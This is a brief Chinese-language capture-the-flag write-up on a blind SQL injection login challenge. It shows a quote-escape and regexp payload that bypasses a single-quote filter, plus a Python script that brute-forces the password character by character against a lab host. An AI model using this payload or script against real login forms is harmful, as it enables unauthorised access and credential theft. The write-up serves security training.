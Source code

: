 
![02.png](https://s.pc.qq.com/tousu/img/20210422/1627861_1619091624.jpg)         

单引号被过        

用`\`转义username的单引号，passwd后接`||`(或)         

payload:`username=\&passwd=||/**/passwd/**/regexp/**/"^a";%00`     







	```python
	import string
	import requests
	from urllib import parse
	
	passwd = ''
	string= string.ascii_lowercase + string.digits + '_'    #小写字母加数字加_
	url = 'http://83eb23d8-2065-4521-9970-018a0b4ce880.node3.buuoj.cn/index.php'
	
	for n in range(100):
	    for m in string:
	        data = {
	            "username":"\\",
	            "passwd":"||/**/passwd/**/regexp/**/\"^{}\";{}".format((passwd+m),parse.unquote('%00'))       ##parse.unquote进行url解码，不解码直接弄不行
	        }
	        res = requests.post(url,data=data)
	        if 'welcome' in res.text:
	            passwd += m
	            print(m)
	            break
	    if m=='_' and 'welcome' not in res.text:
	        break
	print(passwd)
	```





![03.png](https://s.pc.qq.com/tousu/img/20210422/1945636_1619091932.jpg)